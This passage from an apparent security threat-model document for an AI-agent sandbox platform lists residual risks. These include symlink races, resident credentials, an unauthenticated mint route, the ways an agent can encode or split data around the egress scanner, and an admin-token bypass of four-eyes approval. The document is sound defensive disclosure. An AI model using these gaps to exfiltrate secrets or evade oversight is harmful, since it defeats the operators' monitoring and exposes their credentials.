    sources (`.ssh`, `.aws`, `.claude`, `.kube`, `.config/gh`, …) runs on a
    drive's resolved `host_root` as well (`deniedMemberSegment` inside
    `UserDriveHostRootCheck`), so a share whose mount point is or traverses a
    credential directory — or a symlink that lands in one — is refused at
    authoring and again at bind time, and the claim residual #25 makes about
    member mounts is now true of drives. It closes nothing beyond that: a drive
    inherits residual #25's TOCTOU **identically**. The blast radius is bounded
    two ways. The roots are operator/MDM-set, so the race can only be aimed
    WITHIN the declared roots. And containment is **PER DRIVE**, evaluated at
    CHECK TIME: `runner.UserDriveHomeWithinItsRoot` asserts the symlink-resolved
    source is a strict subdirectory of THIS drive's own `host_root` — carried
    onto the mount from the resolved row, and an absent one is a refusal rather
    than a skip — on top of `UserDriveMountSourceCheck`'s ceiling over the whole
    root LIST and the base-name rule. So a home in one drive replaced host-side
    by a link into another drive's root is refused even when both roots are
    configured, and a deployment may run as many `host_path` drives inside a root
    as its layout needs.

    **What is left is the window, not the rule.** Every one of those checks runs
    on the `EvalSymlinks`-resolved path, and what is handed to `ContainerCreate`
    is still the LEXICAL `<host_root>/<home>` source, which the daemon resolves
    again for itself — validate and create remain two operations, so a host-root
    attacker who re-points the home in between binds whatever that second resolve
    finds. The check is placed as late as this process can look, immediately
    before the create, and the deny-list matches the post-`EvalSymlinks` real
    path, so a won race landing on a credential directory is still refused. The
    race is not deterministically testable and no test claims to cover it.

36. **A drive's SIZE is an allocation Wardyn never enforces, on any substrate.**
    Published in the product's own frozen words, rendered verbatim by the
    console and the docs:

    > Wardyn never enforces a drive's size itself. On Kubernetes the size is the volume request and the storage class decides whether it binds — block disks do, network-share provisioners do not. On Docker a managed drive has no byte cap, the same gap disk_mib has. A share is bounded by its own quota. The size you see is the allocation, not a guarantee.

    Every drive therefore carries an `enforcement` value naming who, if anyone,
    binds the bytes (`types.StorageEnforcement`: `filesystem`, `request`,
    `external`, `none`) — `request` for a managed claim, `external` for a share,
    `none` for a Docker volume — and that value is on the `run.drive.mount`
    audit row beside the mount, so a later dispute reads the size with its
    caveat attached. **Marketing and UI must not call a drive's size a quota or
    a limit.** Concretely: a member with a writable drive can fill the node's or
    the share's storage, and nothing in Wardyn stops them. `--storage-opt size`
    caps only a container's writable layer, never a volume, and an XFS project
    quota needs `CAP_SYS_ADMIN` the control plane must not hold; the closest
    real mitigations are the storage class (block, not network-share), the
    share's own quota, and a namespace `ResourceQuota`.

37. **Renaming a drive orphans every object already provisioned under it, on
    BOTH substrates, and the console still warns nobody at the write.** A managed claim's name folds the
    drive's slug, so a rename changes the name every FUTURE claim is created
    under: the claims already provisioned keep their old names, keep the
    member's data, and are never looked up again — each person's next run
    provisions a fresh, EMPTY claim under the new name, and the work looks lost
    to them. Nothing deletes the old claims, on purpose (Wardyn holds no
    `delete` verb, and a rename must never be able to destroy storage), and the
    reclaim is documented: the claims carry the drive row's **id** rather than
    its name precisely so a label selector still finds them, and
    `docs/OPERATIONS.md` "User drives on Kubernetes" carries the `get pvc -l`
    and `delete pvc` recipe to move the data and reclaim the object. **The API
    no longer performs it quietly:** a rename — like any change to `backend`,
    `home_template` or `host_root` — on a drive that already has grants is a
    **409** naming what changes and how many allocations move, unless the request
    carries `?confirm=rehome` (`driveRehomeGuard`), and the `drive.write` row
    carries `rehomed: true` so the log distinguishes a cosmetic edit from one
    that moved somebody's storage. What is NOT closed is the console: it has no
    confirm affordance, so an admin who means the rename carries it out through
    the API, and the runbook above is still how the orphaned objects are
    reclaimed afterwards. **Docker is no longer exempt.** A managed volume's
    name folds the drive's slug exactly as a claim's does, so a rename orphans
    volumes the same way — the old ones keep the data, are never looked up
    again, and each person's next run creates a fresh empty volume under the new
    name. They stay findable by the label the name does not carry
    (`docker volume ls --filter label=wardyn.drive=<drive id>`, "User drives on
    Docker"), which is why the id is labelled rather than the name. Before the
    naming change this residual was Kubernetes-only; nothing about the rename
    path changed, only the set of objects it orphans. Rename is the visible case of a wider gap: `PUT /drives/{id}` accepts
    EVERY field change on an allocated drive without a warning — a
    `home_template` change hands each member a fresh, empty object at their next
    run (the old ones findable by `wardyn.drive` on managed backends only), and a
    `host_root` change binds a different tree under the same names. The 409 above
    covers all four columns, so the gap that remains is the console's, not the
    API's.

38. **A per-user API token's GROUP SNAPSHOT is frozen at mint, with no expiry
    — so for a group-derived power the demoted-admin window is UNBOUNDED, where
    the SSH analogue's (#15) is merely long.** NARROWED, NOT CLOSED, and the
    half that moved is worth stating exactly. `0045_api_tokens.sql` stamps
    `role` and `groups` from the minting session
    (`internal/api/apitokens.go`), and every request the token authenticates
    republishes them through `withHumanIdentity`, so downstream the bearer is
    that human as they were at mint time.

    Since the token lane gained the login hook the key lane had since `0046`,
    the ROLE half is now bounded the same way: `oidc.Config.OnLogin` fires
    `store.RefreshAPITokenRoles` beside `store.RefreshSSHKeyRoles`, so the
    demoted human's own next sign-in re-stamps `role` on every unrevoked token
    they hold. What did NOT move: `groups` is never refreshed by that hook or
    anything else, the table still carries `created_at`, `last_used_at` and
    `revoked_at` and **no expiry column**, there is no TTL the way
    `WARDYN_SSH_ROLE_TTL` bounds a key, and a human who never signs in again is
    re-stamped never. So a power that derives from the frozen GROUP snapshot —
    a capability grant or governance profile bound to a group they have left —
    survives indefinitely, and a demotion in the IdP still never reaches the
    row on its own. Since 0.7 stamps `security_admin` verbatim, a human
    demoted out of that tier keeps — through any token minted while they held it
    — profile authoring and assignment, capability-grant writes, session and
    token revocation, escalated approval decisions on anyone's run, workspace
    `approved_egress`/`denied_egress` writes, and audit-chain verify. It gains
    nothing the tier itself lacks: a token is never a shell, never an attach
    ticket on a foreign run, and no capability grant widens it to admin
    (`TestCapabilityGrantsNeverReachTheAdminTier`).

    **The remediation exists, is the only one, and has to be invoked
    deliberately.** `GET /api/v1/tokens` lists every live token with its owner
    and `last_used_at`; `DELETE /api/v1/tokens/{id}` revokes one; `POST
    /api/v1/sessions/revoke` with `{"sub":"<sub or email>"}` revokes a human's
    sessions AND every unrevoked token they hold in one call — naming either
    identity, because on an IdP whose `sub` is an opaque per-app identifier the
    operator knows the email. All three are admin or `security_admin`. The
    `session.revoke` row's `tokens_revoked` count is the receipt that the
    identifier matched a person: sessions are stateless and cannot be counted, so
    a zero there against someone you believe holds tokens means you named them
    wrong. Nothing ages a token out, so offboarding must revoke explicitly
    (`docs/OPERATIONS.md`, "Per-user API tokens"). Closing this means re-deriving
    the role at auth time, or revoking a principal's live tokens from the
    role-mapping write path; neither is built.

39. **A group claim the IdP FILTERS is indistinguishable from a complete one, so
    a shrink-the-claim workaround loses grants silently.** Wardyn marks a group
    snapshot partial in exactly two cases: entries dropped at the cookie byte cap,
    and the IdP's overage pointer (`_claim_names`, the claim withheld entirely) —
    `sessionGroups`, `internal/auth/oidc/derive.go`. Both are LOUD downstream: the
    ceiling resolver treats the identity as unanswerable and refuses rather than
    resolving on a partial list, an unresolvable DENY refuses too, and since the
    drives merge a group-tier drive allocation refuses the mount on the same bit
    (`driveWithUnusableGroups`, `internal/api/user_drives_resolve.go`) — three
    consumers, all fail-closed. A claim the
    IdP was CONFIGURED to narrow sets neither bit: it is complete by the IdP's
    account and merely smaller. Entra's `groupMembershipClaims: "ApplicationGroup"`
    — the option Microsoft recommends for the token group limit — emits only groups
    assigned to the application and excludes nested membership, and group-based App
    Role assignment reaches direct members only. Either way a governance assignment
    or a group-subject capability grant keyed on a group the member reaches
    transitively stops matching, with no refusal, no audit line and no
    `groups_snapshot_stale`. The token carries no signal that anything was filtered,
    so there is nothing Wardyn could check.

    Accepted for 0.7 because the remedy is procedural and the burden is the
    operator's: re-key group-subject grants and group-tier assignments onto a
    directly-assigned group or onto the user BEFORE changing the claim
    configuration, then verify against a real login's `session_groups`
    (`GET /me/capabilities`) rather than against the IdP's UI —
    `docs/OPERATIONS.md`, "A third cause of a partial snapshot", carries the
    procedure. User-subject rows are the only shape a claim-configuration change
    cannot silently break. Closing this needs a signal the IdP does not send;
    the nearest approximation is warning when a group-subject row stops matching
    anyone, which is not built.

### Operator overrides that boot past a fail-closed gate

Three shipped env vars let a deployment start after a gate this document
otherwise describes as unconditional. They exist because a fail-closed gate with
no escape hatch is a gate operators disable by not upgrading — but a deployment
that sets one is **not** the deployment §4 and §7 describe, so each is listed here
with what it costs. All three are read once at construction, all three log an
unmissable warning, and none is silent on the setup checklist.

| Override | Gate it passes | What the deployment loses |
|---|---|---|
| `WARDYN_K8S_ALLOW_UNENFORCED_NETPOL=1` | The boot-time egress canary PROVED this cluster's CNI does not enforce `NetworkPolicy`, which normally refuses substrate construction | L1 entirely: in the driver's own words, "every sandbox this substrate creates has UNCONFINED egress". Classes stay advertised, but `NetworkPolicy` and `StructuralEgress` both report false, so the substrate never reads as confined on `/healthz`; the `k8s_egress_containment` checklist row is a hard `fail`. L2 (the proxy) still stands — this is the loss of the kernel-level layer beneath it, not of all egress control |
| `WARDYN_K8S_ACK_AMBIENT_DEFAULT_DENY=1` | Canary phase A failed in exactly the shape a platform-applied ambient default-deny produces | PROOF, not enforcement. Phase B — the deny-all test that would show Wardyn's OWN policy binds — is skipped, because behind an existing ambient deny it can only ever also refuse. `NetworkPolicy` reports false and `NetworkPolicyAcknowledged` true; the checklist row is `warn`, never `ok`. The honest reading: this cluster is probably confined by the PLATFORM's policy, and Wardyn cannot confirm its own |
| `WARDYN_ALLOW_UNENFORCEABLE_CAPS=1` | The Docker daemon's create response reported it DISCARDED a requested CPU / memory / pids limit (`verifyCapsEnforced`), which normally refuses the run BEFORE `ContainerStart` | The per-run resource ceiling on that host. The sandbox is created and started anyway, with a `slog.Warn` naming the discarded limit — so an untrusted workload can run effectively uncapped, and a fork bomb or memory hog is a host-level event. Intended for a host the operator already trusts; the real fix is delegating the cgroup v2 controllers to the runtime user |

`WARDYN_K8S_ACK_AMBIENT_DEFAULT_DENY` is narrower than "boot past the canary": it
acknowledges exactly ONE phase-A shape — a canary pod that reached Running and
exited exactly 1, which is what an ambient default-deny looks like from inside —
and nothing else. Every other indeterminate verdict (never reached Running, a
different exit code, phase B unreachable) still refuses construction outright,
with no override at all.

### 5.1a LLM egress content inspection — the honest-claims contract

The optional `llm_inspection` guardrail (residuals #1, #2) is a **visibility +
inadvertent-leak guardrail, NOT exfiltration prevention.** It must be described in
exactly these terms.

**Wardyn MAY claim:**
- Optional, off-by-default inspection of outbound LLM prompts on the inspectable
  API-key egress path for **operator-declared known secret values**, to catch an
  HONEST agent's inadvertent inclusion (the Samsung-ChatGPT class) and record a
  CONTENT-FREE audit event (`llm.scan.*`).
- A guardrail that **complements, does not replace,** the structural controls.
- Per-mode coverage reported honestly: an OPT-IN per-run TLS-MITM
  (`intercept_tls`) makes the subscription-OAuth Anthropic path and the
  OpenAI/Codex path **inspectable** (the proxy terminates TLS with a per-run CA
  whose PRIVATE key never enters the sandbox; the sandbox trusts only the public
  cert). Without `intercept_tls`, those CONNECT tunnels stay **opaque and flagged
  `llm.scan.blind`**; Bedrock stays opaque regardless (client-side SigV4 cannot be
  re-forwarded). The `require_inspectable_llm` policy fails an opaque-transport run
  **closed** at schedule time for strict operators.
- Detections recorded **without storing the secret** — detector + field path +
  offset + count + masked placeholder only; never the matched bytes, never a
  reversible hash.

**Wardyn may NOT claim (these would repeat the industry's egress-veto overclaim):**
- "Prevents/blocks data exfiltration to the model," "exfil-proof," or "DLP." An
  agent can encode / split-across-turns / encrypt around any scanner — residual #1
  STANDS.
- "Detects all secrets and PII." The detectors are: declared known-secret VALUES
  (exact, default), an OPT-IN regex catalog of well-known secret FORMATS
  (`detect_secret_patterns`; high precision, can FP on example keys), an OPT-IN
  Shannon-entropy detector (`detect_entropy`; high-FP in code, pure-hex skipped,
  medium severity so `block_min_severity` can exclude it), an OPT-IN regex/Luhn PII
  detector (`detect_pii`; ≈60-70% recall = high false-negative — visibility, NEVER
  a control), and an OPT-IN out-of-process sidecar (`detector_sidecar_url`; e.g.
  Presidio/LLM-Guard — fail-open by default, fail-closed under
  `on_scanner_error=block`). None is exhaustive; entropy and PII in particular are
  best-effort. Detections stay content-free regardless of detector.
- "Protects all LLM traffic" — Bedrock (SigV4) stays opaque, and any run without
  `intercept_tls` leaves subscription/OAuth tunnels uninspected (flagged blind).
- "Safely redacts prompts" — redaction is deferred (it can corrupt tool I/O and
  prompt caching, and may strip a value the model legitimately needs).

**Resident-secret exceptions — the complete, authoritative list.** Wardyn's default
invariant is "no resident secrets": a credential is late-bound by the broker and
injected proxy-side, so the sandbox process never holds it. The table below is the
COMPLETE set of places a live credential does land inside a sandbox — §4 and §8
point here rather than restating a count, because a hardcoded count is exactly how
this list drifted before. Each row states what lands, why it cannot be
proxy-injected, and what bounds it; where a bound does not exist, it says so.

| Exception | What lands in the sandbox | Why it can't be proxy-injected | Bounds (and their limits) |
|---|---|---|---|
| `ssh_key` grant (SSH SCM lane) | The stored SSH **private key**, as a file the `ssh` client reads | git's SSH transport has no credential-helper seam (`credential.helper` is HTTP-only) | Written `0400` agent-owned at clone time, shredded right after (`wipe_ssh_grants`, before the agent starts); mask-registered at mint. On an UNBROKERED forge that window is a narrowing, not a bound; on a BROKERED forge the grant never reaches the sandbox. Wardyn cannot down-scope or expire an SSH private key where it does remain resident (`internal/broker/broker.go` `mintSSHKey`, `deploy/images/*/agent-run`). See below. |
| `git_pat` grant (Azure DevOps / GitLab), **`WARDYN_GIT_PAT_BROKER=off` only** | Nothing, by default. Under the `off` escape hatch: the **PAT value**, streamed from `wardyn-git-helper` to the sandbox's `git` process | Nothing structural any more — this row is a MODE, not an impossibility. The default (`WARDYN_GIT_PAT_BROKER=on`, since 0.7) removes the opaque CONNECT tunnel instead of trying to inject into it: `agent-run` rewrites the granted hosts to a plain-HTTP broker path (`url.<broker>/git/<host>/.insteadOf`), the proxy terminates the request itself, mints server-side and sets Basic auth on the OUTBOUND leg (`internal/egress/proxy/pat_broker.go`), and the grant ids are withheld from the sandbox env so the in-sandbox helper could not mint anyway. Read the row below on the same pattern as `WARDYN_SUBSCRIPTION_INJECT=off` | **Only the `off` mode is resident, and only there do these bounds apply.** Helper emission is gated on a per-run `0400` caller-auth secret and the value is mask-registered at mint — but that gate binds only a caller going through `wardyn-git-helper`: the proxy's local mint route (`POST /wardyn/v1/credentials/mint`) is itself unauthenticated, so a caller that reads the grant id straight out of the sandbox env and POSTs the route directly is not bound at all. **No expiry, no down-scoping** — and that last limit survives the broker: a PAT carries whatever scope the operator issued it with, and there is no ADO/GitLab equivalent of a scoped installation token, so `on` makes the credential NON-RESIDENT, never least-privilege (the broker's allowlist is per-HOST for exactly that reason). `off` is an escape hatch for a forge that misbehaves under the rewrite, not a supported posture. See below. |
| `env_secret` grant (arbitrary tool auth) | The stored secret's **value**, as a sandbox environment variable the operator names (`{"name":"MY_TOKEN","secret_name":"…"}`) | Nothing structural — a COVERAGE gap, not an impossibility. A PAT-authenticated CLI or REST tool reads a `*_TOKEN` env var; `git_pat` wires git's credential helper only and `api_key` injects one header at one host, so neither reaches it. A per-tool proxy shim could; none exists (`docs/adoption/corp-network-onboarding-findings.md` B1) | **The weakest bounds of any row here, and the kind is designed that way — read them before enabling it.** Resident for the WHOLE run; no mint, no TTL, no JTI, so nothing for the kill-switch to revoke; no expiry or down-scoping. See below. |
| Bedrock **access-key** mode | `AWS_ACCESS_KEY_ID` / `AWS_SECRET_ACCESS_KEY` (+ optional `AWS_SESSION_TOKEN`) in the sandbox env | AWS SigV4 signs each request **in-process** — no static header for the proxy to strip and replace | Per-run output masking (PTY/recordings); withheld from non-model (verify/scan) runs; the three secret names are reserved at the broker sink, so no `git_pat`/`ssh_key` grant can resolve them into the sandbox. IAM least-privilege scoping — ideally short-TTL STS creds scoped to one inference profile — is the **operator's** responsibility; Wardyn neither enforces nor verifies it. |
| Bedrock **captured-AWS-SSO** mode (containerized `aws sso login`) | A minimal synthetic `~/.aws`: a generated `config` plus the **SSO token cache** (`sso/cache/<sha1>.json`) carrying the SSO **access token** — and the refresh token / client id + secret when the login also registered a client. Delivered base64 in a sandbox env var, materialized by `agent-run`. | Nothing structural — a **not-yet-built** gap. `portal.sso.<region>` `GetRoleCredentials` is `authtype:none`, so a MITM could carry the token as the `x-amz-sso_bearer_token` **header** and keep it out of the sandbox entirely (the "Phase B" never-resident alternative). Until that ships, the token is written into the sandbox. | Files written `0600`; token values mask-registered **globally**, not per-run (one capture is reused across runs) — access + refresh at capture, access + refresh + client secret again at use; a lapsed token is detected before dispatch and the run falls through to the next credential mode rather than being handed a dead token; withheld from non-model runs; the capture login run is never recorded. **Not bounded:** masking is verbatim-match only, so the base64-encoded copy in the env var is not matched, and Wardyn cannot revoke an SSO session. |
| **Derived AWS role credentials** (every SigV4 Bedrock mode) | The short-lived role credentials the in-sandbox AWS SDK mints for itself from the SSO session (`portal.sso.<region>` `GetRoleCredentials`) | Same as access-key mode: SigV4 signs in-process, so these stay resident **regardless** of how the SSO session reached the sandbox — Phase B would end the SSO token's residency, not theirs | Bounded only by their own STS lifetime and the IAM role's scope, both set outside Wardyn. Wardyn never sees these values, so they are **not** mask-registered and cannot be masked. |
| Bedrock **host `~/.aws` mount** (`WARDYN_BEDROCK_AWS_DIR`) | Whatever the operator's host `~/.aws` holds — the SSO token cache, and any static keys in it — readable at `/home/agent/.aws` | The AWS SDK resolves credentials from the file itself | Bind-mounted **read-only**, so the sandbox can never write the operator's host AWS state; nothing is stored by Wardyn and no keys go into env. Wardyn never reads the contents, so it cannot mask them. A single-user / self-hosted choice, not for a shared multi-tenant service. |
| Subscription `~/.claude` mount, **`WARDYN_SUBSCRIPTION_INJECT=off` only** | A real, refreshable **copy** of the operator's Claude OAuth credentials | With injection off there is no proxy-side token provider to inject from (the distroless compose `wardynd` carries no `claude` binary of its own) | **Mode-dependent — read the defaults carefully.** With injection ON (the host-mode default) the staged `.credentials.json` is sanitized to an inert sentinel (refresh token blanked, access token replaced, expiry pinned), so nothing usable is resident. The **compose stack defaults this env var to `off`**, so on that stack the resident copy is the default. The mount is read-only, and lands only when the run's resolved `ai_provider` integration is a `resident_host` `anthropic_subscription` (a workspace pin or the operator's `DefaultFor: agent_runs` default) against an operator-blessed ceiling mount. |
| Container-**login** runs (`harness login`) | The credential the run exists to obtain: `claude setup-token` prints it to the PTY; `aws sso login` writes it to `~/.aws/sso/cache` before `wardyn-aws-sso` uploads it | The credential does not exist yet — there is nothing to inject | A throwaway box: no workspace, no repo, no credential mounts, mints nothing (the AWS flow is seeded with one NON-secret file — a `~/.aws/config` holding the operator's SSO start URL + region, which `aws sso login` cannot run without), default-deny egress pinned to the login flow's hosts, idle auto-stop. **Never recorded** — the recorder is dropped entirely for a `harness login` run (masking could not have covered it: the value arrives after the run's mask snapshot). |

**`ssh_key` and `git_pat` — the brokered/unbrokered split** is stated once, in
full, under asset #4 (§2). Two citations that live only here: on an unbrokered
forge the grant id rides `WARDYN_SSH_GRANTS` and an auto-mintable grant is
re-mintable by design (`MintForGrant`), because the proxy's mint route refuses
only brokered *GitHub* grant ids (`isBrokeredGitGrant`); on a brokered forge
`validateGrantLaneExclusivity` (`internal/api/policy.go`) refuses the policy at
write time and `dropBrokeredGrants` withholds anything already stored, so no
grant id reaches the sandbox and there is nothing to re-mint.

**`git_pat` — the run lease.** A `run`-scoped approval takes a per-run LEASE on
this kind (v0.6, opt-in per decision, `broker.leaseCoversRemint`): one human
decision then re-mints the same grant for the rest of the run instead of raising
a fresh approval per git operation. That widens what one approval authorizes and
is published as such — each leased mint is stamped `lease: true` on its
`credential.mint` event, the lease is `git_pat`-only and per-SCOPE, and it dies
with the run (a leased re-mint still runs the whole mint transaction, so
`runRevoked` refuses it once the kill-switch cascade commits). The comparison is
against the RAW stored `decision_scope`, never `ApprovalScope.Normalize()`d, so
no approval decided before v0.6 leases anything. The lease does not change the
unauthenticated-mint-route residual above. Wardyn holds an operator-provisioned
PAT and can only forward it — no ADO/GitLab token-minting integration exists, and
that is this kind's honesty ceiling.

**The GitHub contrast** the ADO design targets: a granted repo's git traffic is
rewritten (`insteadOf`) to the proxy-side git broker, which mints the App
installation token SERVER-side and re-originates with it, so the clone/push never
carries a token into the sandbox. On a **brokered** run — one the broker serves at
least one repo for (`WARDYN_GIT_BROKER_REPOS` non-empty, the same map that drives
the deny) — the helper REFUSES every GitHub host **and** the proxy's mint route
refuses that grant id, so the installation token is unobtainable from inside the
sandbox even though the grant id rides the agent env. A `github_token` grant
covering **no** repo is NOT brokered — no `/wardyn/gh/` route, no injected deny —
and mints nothing by any path: `MintInstallationToken` refuses an empty repo list
outright (`broker: github token requires at least one repo`). An inert grant, not
a `git_pat`-grade resident credential.

**`env_secret` — what IS bounded.** Resolved at dispatch
(`api.resolveEnvSecretGrants`), mask-registered for the run, and never written to
the audit stream (`run.env_secret.resolve` carries the variable name and the SECRET
name, never the value). Unlike `ssh_key`'s clone window, an env var lives as long as
the process tree and anything running as the agent uid reads it from
`/proc/self/environ`; the broker refuses the kind for minting (`mintKind` returns
`ErrUnknownGrantKind`), so killing the run stops the process but does not
un-disclose the secret. Bounded: the variable name is `[A-Z_][A-Z0-9_]*` and may not
start with `WARDYN_` (write time); the secret may not be a reserved
platform-internal name (write time AND at the dispatch sink); the grant may not
overwrite a variable dispatch already set; `requires_approval` is REFUSED rather
than silently ignored (there is no mint to gate); and the kind is **admin-only by
default** — a member's `env_secret` grant is dropped even for a ceiling-listed
pairing unless the operator sets `WARDYN_ALLOW_MEMBER_ENV_SECRET`. That drop is a
ROLE check plus the switch, never a ceiling check, so it binds every non-operator
on every route a run policy arrives by (an inline body, a stored row the member
selected, or the deployment default) and regardless of whether a governance
profile is assigned to them (`dropAdminOnlyEnvSecretGrants`). Prefer `api_key`
(never resident) whenever the tool can be pointed at a host + header instead.

**Everything else is never-resident** — `api_key`, the Bedrock **bearer** token
(`bedrock-api-key`), and the default proxy-injected subscription: the value is
resolved at the injection sink or re-originated proxy-side, and the sandbox holds
only a placeholder or an inert sentinel. GitHub's `github_token` sits between the
two lists: its git *transport* is never-resident (broker-injected, see the `git_pat`
row), but the credential helper can still mint it in-sandbox. Bedrock bearer mode is
therefore the one to prefer when the never-resident posture matters: a bearer token
is a *static* `Authorization` header, so the proxy TLS-MITMs `bedrock-runtime.*` and
injects it exactly like an api-key (the CA private key stays in proxy memory; the
host is an exact, non-wildcard operator-configured MITM entry with a paired
injection rule — the corp-artifact-host trust boundary in `isMITMHost`).

**Known v1 coverage gaps (recorded honestly; not silent):**
- Only the **system prompt + the last message** of each turn are scanned. Secrets
  in earlier seeded messages, in a 2nd+ new message appended the same turn, or
  split across turns are missed. The primary inadvertent-leak paths (a fresh paste,
  a `tool_result` of a just-read file) are the last element and are covered.
- A single span over `max_scan_bytes` (default **1 MiB**) or a body over **32 MiB**
  is forwarded **unscanned** (`span_oversize` / `body_oversize`). Fails **open** by
  default; `block` + `on_scanner_error=block` fails it **closed**.
- `POST /v1/messages/batches` (N prompts, different schema) is recorded
  `uninspected_channel` (refused under fail-closed block). Base64
  `image`/`document` bytes are scanned only under `scan_attachments` (opt-in, off
  by default). `count_tokens` **is** scanned.
- **Walled-garden coverage (`inspect_forward_egress`, `classified_markers`):**
  inspection extends to the GENERIC plaintext-HTTP forward path (custom connectors)
  and to MCP/JSON-RPC bodies via the generic walker, and operator
  `classified_markers` flag proprietary-content egress. But an **HTTPS** connector
  tunnels via opaque CONNECT and is **uninspected** unless MITM-eligible
  (`isMITMHost`, `internal/egress/proxy/mitm.go`), so most non-LLM HTTPS egress
  stays opaque (a `MITM-all-egress` mode is a deliberate future option, gated on
  cert-pinning / non-HTTP-over-443 risks). DNS-tunnel and domain-fronting residuals
  (§5 #2, #3) are unchanged.
- **Upstream corp-proxy hop relaxes the resolved-IP TOCTOU guard.** That mode is a
  supported, operator-configured egress lane (site-config only — not sandbox- or
  agent-controlled) and the intended path to internal/corporate endpoints from a
  sandbox with no direct internet route. The *residual* is one relaxation: with
  `p.upstream` set the proxy hands the corp proxy the target HOSTNAME rather than a
  proxy-resolved-and-pinned IP, so `VetHost`'s resolved-IP re-check is skipped for
  that hop (the `p.upstream` branch of step 4 in `evaluate`,
  `internal/egress/proxy/proxy.go`). **Bounds, stated exactly so operators don't
  over- or under-read it:** this does NOT make private IPs reachable. Reaching an
  internal-IP-resolving hostname still requires ALL of — (1) an operator configured
  the upstream proxy, (2) the run's own egress **policy** allows that hostname
  (default-deny allowlist + first-use approval + method rules, all unaffected), and
  (3) the destination is named by HOSTNAME: a literal
  private/loopback/link-local/metadata IP is still denied at the literal-IP guard.
  Only the resolved-IP re-check is deferred, to the operator's own corp proxy.
- The optional **sidecar** (`detector_sidecar_url`) treats an
  error/timeout/non-200 as a scanner error like the in-process detectors: fails
  **open** by default, and `on_scanner_error=block` **does** extend to it, so
  `block` with the sidecar as the *sole* detector refuses the request when it is
  down (recorded `sidecar_error`, distinct from a clean scan).
- **Deferred (documented, not built):** cross-request / split-across-turns secret
  tracking, field-level **redaction** (corrupts tool I/O + prompt caching), and
  response-side **SSE** scanning. Residuals, not silent gaps.
- The 32 MiB per-request buffer (only when inspection is enabled) raises proxy
  memory vs. the prior streaming path; bounded per-request, relying on the run's
  cgroup memory limit under high concurrency.
- **TLS-MITM (`intercept_tls`) residuals:** the proxy sees DECRYPTED bodies for the
  intercepted hosts (added trust surface — the per-run CA private key in proxy
  memory). The MITM core (terminate → leaf-mint → inspect → re-originate) is proven
  by an in-process test, and the full container path by `TestLive_SubscriptionInject`
  (`test/e2e/live/subscription_test.go`; Docker-gated, not in default CI).
  **Interactive** runs install the per-run CA too: the container's main process is
  `agent-run --idle` (`idleCmd`, `internal/runner/docker/driver.go`), which calls
  the same `install_mitm_ca` batch runs use (`deploy/images/claude-code/agent-run`,
  `deploy/images/common/agent-run-lib.sh`), so a human driving `claude` in the
  attach shell trusts the proxy's TLS termination exactly as a batch run does. SDK
  certificate pinning would break MITM (none today); the reverse-proxy API-key route
  remains the robust default.
- **JVM (keystore) and Deno (`DENO_CERT`) trust stores are not wired.**
  `install_mitm_ca` writes the per-run CA for OpenSSL-shaped clients
  (`SSL_CERT_FILE`/`REQUESTS_CA_BUNDLE`/`CURL_CA_BUNDLE`) and Node
  (`NODE_EXTRA_CA_CERTS`) — never into a JVM's `cacerts` keystore or `DENO_CERT`. A
  run whose task trusts a MITM'd host through a JVM HTTP client or Deno fails the
  TLS handshake to that host (closed-direction failure — a loud error, not a silent
  trust bypass or leaked credential) rather than succeeding through the intercept.
  Fixing this needs a per-runtime trust-store import at the same install point,
  tracked as a follow-up. **Scope:** MITM inspection is **not** mandatory for any
  egress class — only the LLM hosts (`api.anthropic.com`/`api.openai.com`) and
  operator-configured corp artifact hosts (`MITMHosts`) are intercepted; **every other host, including internal endpoints
  reached via the upstream corp-proxy lane, is an opaque CONNECT tunnel Wardyn never
  TLS-terminates.** So a JVM/Deno client reaching an internal API or corp SaaS is
  unaffected — the gap bites only when such a client is pointed at a MITM-eligible
  host. Route it through a non-inspected lane, or wait on the follow-up.

### Four-eyes on egress approvals is bypassable by the admin token, by design

`WARDYN_EGRESS_SECOND_HUMAN=1` (off by default) requires that the human who
DECIDES an `egress_domain` approval is not the human who created the run —
four-eyes on the one decision that widens what a running agent can reach. It is
published here rather than in §4 because of the exemption it ships with.

**A bare `WARDYN_ADMIN_TOKEN` caller BYPASSES the rule.** That caller is attributed
`system`/`admin-token` (`actorFromRequest`, FIX #10) precisely because a shared
token carries NO per-human identity — there is no second human to compare it
against, and `X-Wardyn-Principal` is deliberately ignored off local mode so a token
bearer cannot forge one. Refusing the token instead would lock an operator out of
their own approval queue exactly when SSO is broken, so the bypass is the
deliberate break-glass rather than an oversight.

The residual is therefore precise: **anyone holding the admin token can
single-handedly approve their own run's egress under a deployment that believes it
has four-eyes.** What bounds it is disclosure, not prevention — every bypass writes
an `approval.second_human.bypass` audit event beside the `actor_type=system`
`approval.decide`, so a SIEM rule can alert on one, and the gate is only as strong
as the operator's handling of that token: SSO configured, token held out of band.
Local mode carries the same shape under a different label — the injected operator
IS a verified human, so a self-decision there is refused like any other, which is
why this switch is not one to turn on for a single-dev machine.

### Known latent vulnerabilities

We publish known-uncalled findings here rather than let them sit in a scanner's
ignore-list.

- **GO-2026-5932** — `golang.org/x/crypto/openpgp` is flagged unmaintained and
  unsafe by design, with **no fix available** (`Fixed in: N/A`). The
  `golang.org/x/crypto` *module* reaches our build two ways — `filippo.io/age`
  (our secret-encryption primitives) imports `chacha20poly1305`, `hkdf`,
  `curve25519`, `scrypt`, and Wardyn imports `golang.org/x/crypto/ssh` directly
  for the SSH gateway (`internal/api/sshgateway.go`, `sshgateway_channels.go`,
  `sshkeys.go`; a direct `require` in `go.mod`) — sibling packages that pull in
  the module. No Wardyn code path, and no dependency Wardyn calls, imports the
  `openpgp` subpackage (`go mod why golang.org/x/crypto/openpgp`: "main module
  does not need package golang.org/x/crypto/openpgp"), and `govulncheck`'s
  symbol-level analysis agrees ("Your code is affected by 0 vulnerabilities") —
  it appears only in the module-level tally. Accepted as latent and unreachable
  rather than vendoring or forking `x/crypto`: there is no upstream fix to take.
  `govulncheck` runs in CI on every push (`.github/workflows/ci.yml`, job
  `gates (govulncheck)`, default and `-tags docker` builds) so that a future bump
  putting `openpgp` on a *called* path flips the scan to a real finding and CI
  goes red — this entry is not a standing exemption.

### Console auth token storage

The web console (`ui/`) authenticates to the control plane one of two ways, with
**different at-rest posture**:

- **Admin token (the single-operator local path, shipped today).** `wardynd`
  never generates or prints it — it is the value you (or the compose demo,
  `demo-admin-token`) started it with, `WARDYN_ADMIN_TOKEN`, pasted into the
  sign-in screen and attached as an `Authorization: Bearer` header on every
  `/api/v1` request. A full-admin credential in browser storage carries
  **XSS-equivalent risk**: any script in the console origin can read it. Default
